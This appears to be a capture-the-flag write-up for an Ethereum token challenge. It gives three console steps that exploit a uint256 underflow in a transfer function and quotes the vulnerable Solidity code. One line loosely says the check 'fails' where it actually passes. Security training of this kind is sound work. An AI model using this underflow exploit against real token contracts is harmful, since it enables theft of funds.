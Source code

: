 Solution
========

1. Get balance: (await contract.balanceOf(player)).toString() --> 20
2. create a 2nd account in metamask --> 2ndAccountAddress
3. await contract.transfer("2ndAccountAddress", 21)

Expalanations
=============

In step 3 we transfer more tokens to the secondary account than we own.
Here is the relevant code of the transfer function of the Token contract:
```
require(balances[msg.sender] - _value >= 0);
balances[msg.sender] -= _value;
balances[_to] += _value;
```

line 1: The security check fails since the transfer value exceeds the balance of the primary account causing an uint256 underflow
--> balance - value = max value of uint256 (115792089237316195423570985008687907853269984665640564039457584007913129639935, in solidity: type(uint256).max or 2**256 - 1)

line 2: the same underflow gives the primary account a balance of 2**256 - 1 tokens

line 3: the secondary account receives 21 tokens.

--> SOLVED

Conclusion
==========

Use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators.